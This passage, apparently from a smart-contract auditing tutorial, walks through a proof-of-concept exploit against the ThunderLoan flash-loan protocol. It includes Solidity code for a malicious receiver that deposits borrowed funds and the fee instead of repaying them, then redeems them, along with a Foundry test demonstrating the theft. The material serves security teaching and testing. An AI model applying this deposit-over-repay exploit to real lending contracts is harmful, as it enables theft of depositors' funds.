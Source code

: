 For this attack to work we need to deposit the funds we've borrowed back into ThunderLoan (as well as the expected fee). This, if we're right, will clear the flash loan and allow us to redeem the amount of the loan, stealing the funds permanently!

```js
function executeOperation(
    address token,
    uint256 amount,
    uint256 fee,
    address, /*initiator*/
    bytes calldata /*params*/
)
    external
    returns (bool)
{
    s_token = IERC20(token);
    assetToken = thunderLoan.getAssetFromToken(IERC20(token));
    s_token.approve(address(thunderLoan), amount + fee);
    thunderLoan.deposit(IERC20(token), amount + fee);
    return true;
}
```

All our test should need to do, is call flashloan, passing our malicious contract as the flash loan receiver, and then illustrate that the attacker can redeem the funds.

We can begin by creating a function within `DepositOverRepay` for our attacker to call that executes the `redeem` function in `ThunderLoan`.

```js
function redeemMoney() public {
    uint256 amount = assetToken.balanceOf(address(this));
    thunderLoan.redeem(s_token, amount);
}
```

Now we can set up our test.

```js
function testUseDepositInsteadOfRepayToStealFunds() public setAllowedToken hasDeposits {
    uint256 amountToBorrow = 50e18;
    DepositOverRepay dor = new DepositOverRepay(address(thunderLoan));
    uint256 fee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
    vm.startPrank(user);
    tokenA.mint(address(dor), fee);
    thunderLoan.flashloan(address(dor), tokenA, amountToBorrow, "");
    dor.redeemMoney();
    vm.stopPrank();

    assert(tokenA.balanceOf(address(dor)) > fee);
}
```

Here we're setting an `amountToBorrow` and deploying our malicious contract. We then calculate the `fee` and mint this to our malicious contract and call `flashloan`.
